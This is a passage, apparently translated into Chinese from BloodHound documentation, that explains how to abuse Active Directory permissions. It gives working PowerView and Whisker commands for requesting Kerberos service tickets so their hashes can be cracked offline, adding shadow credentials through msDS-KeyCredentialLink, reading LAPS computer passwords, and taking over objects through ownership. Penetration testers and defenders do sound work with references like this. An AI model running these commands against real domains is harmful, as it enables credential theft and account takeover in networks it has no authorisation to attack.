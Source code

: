 运行此命令后，您可以使用 Get-DomainSPNTicket，如下所示：

```
Get-DomainSPNTicket -Credential $Cred harmj0y | fl
```

可以使用您选择的工具离线破解恢复的哈希值。可以使用 Set-DomainObject 命令来清理 ServicePrincipalName：

```
Set-DomainObject -Credential $Cred -Identity harmj0y -Clear serviceprincipalname
```

## Owns

对象所有者保留修改对象安全描述符的能力，无论对象 DACL 的权限如何

+ 滥用信息

有了对象的所有权，您可以根据需要修改对象的 DACL。有关详细信息，请参阅 WriteDacl 边缘部分。

## AddKeyCredentialLink

能够写入用户或计算机上的“msds-KeyCredentialLink”属性。写入此属性允许攻击者在对象上创建“影子凭证”并使用 kerberos PKINIT 作为主体进行身份验证。

+ 滥用信息

要滥用此权限，请使用 Whisker：

```
Whisker.exe add /target:<TargetPrincipal>
```

对于其他可选参数，请查看 Whisker 文档。

## ReadLAPSPassword

此权限允许您从计算机读取 LAPS 密码

+ 滥用信息

如果您不以该用户身份运行进程，则可能需要向域控制器进行身份验证，作为对目标用户具有完全控制权的用户。要与 Get-DomainObject 结合执行此操作，首先创建一个 PSCredential 对象（这些示例来自 PowerView 帮助文档）：

```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)
```

然后，使用 Get-DomainObject，如果您尚未以完全控制目标用户的用户身份运行进程，则可以选择指定 $Cred。

```
Get-DomainObject -Credential $Cred -Identity windows10 -Properties "ms-mcs-AdmPwd",name
```

## ReadGMSAPassword

此权限允许您读取组托管服务帐户 (GMSA) 的密码。组托管服务帐户是一种特殊类型的 Active Directory 对象，其中该对象的密码由域控制器管理并按设定的时间间隔自动更改（检查 MSDS-ManagedPasswordInterval 属性）。
